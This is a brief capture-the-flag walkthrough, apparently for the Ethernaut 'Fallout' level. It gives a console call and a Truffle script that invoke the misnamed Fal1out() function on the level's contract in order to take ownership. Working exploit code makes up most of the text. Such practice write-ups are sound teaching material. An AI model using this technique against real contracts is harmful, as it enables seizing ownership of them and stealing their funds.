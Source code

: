 **Method 0x01**

we can run the code in Developer Tools:
~~~
await contract.Fal1out();
~~~


**Method 0x02**

truffle script:
~~~
module.exports = async function(callback) {
	player='your address'
	Fallout='your instance address'
	sig=web3.eth.abi.encodeFunctionCall({
		name:'Fal1out',
		type:'function',
        inputs:[]},
        []
	)
	console.log(await web3.eth.sendTransaction({from:player,to:Fallout,data:sig}))
	callback();
}
~~~